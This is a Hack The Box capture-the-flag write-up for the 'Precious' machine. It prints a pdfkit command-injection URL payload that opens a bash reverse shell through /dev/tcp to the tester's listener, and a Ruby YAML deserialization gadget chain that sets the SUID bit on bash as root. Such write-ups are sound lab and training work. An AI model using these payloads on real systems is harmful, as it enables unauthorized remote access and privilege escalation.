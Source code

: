 # HTB - Precious

## Summary

This is a very easy box. Initial access is just exploiting a known vulnerability with the version of pdfkit the target http server is running, and escalating is a yaml deserialization attack using a misconfigured sudo access.

<br />

## Foothold

Nmap shows 22 and 80 open, 80 has a redirect to precious.htb so I added that to `/etc/hosts`  

Navigating to `http://precious.htb` shows that we have a simple tool that converts web pages to pdf documents. We can create one of these documents by hosting a python web server on 8000 and then entering `http://10.10.14.4:8000`  
Running `exiftool downloadedpdf.pdf` we can see that the pdf was generated using `pdfkit v0.8.6`  
Searching google for `pdfkit v0.8.6 exploit` we find that there is an RCE vulnerability with this version of pdfkit.  

`exiftool` is a tool to show us information about pdfs  

Entering the web link:  
```
http://10.10.14.4:8000/#{'%20`sleep 5`'}
```
causes the page to go dormant for about 5 seconds  
Entering:
```
http://10.10.14.4:8000/#{'%20`bash -c "bash -i >& /dev/tcp/10.10.14.4/8686 0>&1"`'}
```  
with a nc listner on 8686 gets us a reverse shell.  
With this reverse shell, we can find a user "henry's" password written in plaintext in a config file  

<br />

## Privilege Escalation

After sshing with henry, run `sudo -l` and we see:  
`(root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb`  

We can read `update_dependencies.rb` and see that it will call  
`YAML.load(File.read("dependencies.yml"))`  

Based on that, I looked up "ruby yaml deserialization exploit" and clicked the first link which led me to writing the following `dependencies.yml` file:  
```yaml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "chmod u+s /bin/bash"
         method_id: :resolve
```  
After running `sudo /usr/bin/ruby /opt/update_dependencies.rb`  in the directory where my malicious `dependencies.yml` file is located, a buch of errors get thrown, but `ls -la /bin/bash` reveals the suid bit has been set, allowing us to run `/bin/bash -p` and get a shell as root